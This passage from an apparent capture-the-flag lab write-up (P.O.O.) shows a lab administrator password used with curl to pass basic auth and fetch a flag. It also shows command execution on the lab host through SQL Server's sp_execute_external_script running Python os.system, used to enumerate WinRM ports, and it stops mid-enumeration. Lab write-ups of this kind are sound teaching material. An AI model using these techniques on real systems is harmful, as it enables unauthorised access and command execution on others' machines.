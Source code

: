     Express Edition will continue to be enforced.



It contains creds for the administrator account. These work to get past
the basic auth at `/admin`, and return the next flag:



    root@kali# curl -s http://administrator:EverybodyWantsToWorkAtP.O.O.@10.13.38.11/admin/
    "I can't go back to yesterday, because i was a different person then..."<br>
    - Alice in Wonderland<br>
    <br>
    Flag : POO{4882bd2c************************}



## Foothold

The first time I solved P.O.O., I actually missed the IPv6 / WinRM route
below that I believe is the intended route, and only later did it occur
to me that the creds for `/admin` might be a local account. Once I
figured that out, I switched over to using the administrator account to
finish the lab. I'll show my long way in [Beyond
Root](#beyond-root---long-way-to-administrator-shell).

### Local Enumeration

It took a while looking around to put the pieces together. First, the
host is listening on WinRM, TCP 5985, both IPv4 and IPv6:



    SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("netstat -ano");';                        
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 

    Active Connections
      Proto  Local Address          Foreign Address        State           PID 
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       920
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       4372
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
    ...[snip]...
      TCP    [::]:80                [::]:0                 LISTENING       4
      TCP    [::]:135               [::]:0                 LISTENING       920
      TCP    [::]:445               [::]:0                 LISTENING       4
      TCP    [::]:1433              [::]:0                 LISTENING       4372
      TCP    [::]:5985              [::]:0                 LISTENING       4
    ...[snip]...



The original `nmap` did not show 5985 listening, which was an IPv4 scan.
But I haven't checked IPv6.

To check further into this, I need the IPv6 address of the host, which I
can get from `ipconfig`:
